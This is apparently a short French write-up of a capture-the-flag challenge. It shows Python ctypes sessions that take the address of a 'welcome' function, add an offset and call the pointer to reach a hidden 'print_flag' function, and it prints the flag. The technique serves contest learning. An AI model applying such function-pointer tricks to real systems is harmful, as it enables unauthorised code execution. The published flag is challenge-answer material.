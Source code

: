 Alors, j'essaye d'ajouter 24 à l'adresse de ```welcome``` en remote pour exécuter la fonction ```print_flag```.

```
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> ctypes.cast(ctypes.pythonapi.welcome, ctypes.c_void_p).value
140469137453333
>>> f = ctypes.CFUNCTYPE(ctypes.c_void_p)
>>> func = f(140469137453333+24)
>>> func()

```

Le programme plante et ne me renvoie rien...

J'essaye donc de tourner autour de l'adresse de la fonction ```welcome``` pour trouver celle qui appellera la fonction ```print_flag``` correctement.

Après quelques minutes de réflexion et de recherche, je trouve enfin l'index parfait qui me permet d'exécuter la fonction.

```python
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> ctypes.cast(ctypes.pythonapi.welcome, ctypes.c_void_p).value
140391852564757
>>> f = ctypes.CFUNCTYPE(ctypes.c_void_p)
>>> func = f(140391852564757+19)
>>> func()
super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}
83
```

flag: ```FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}```
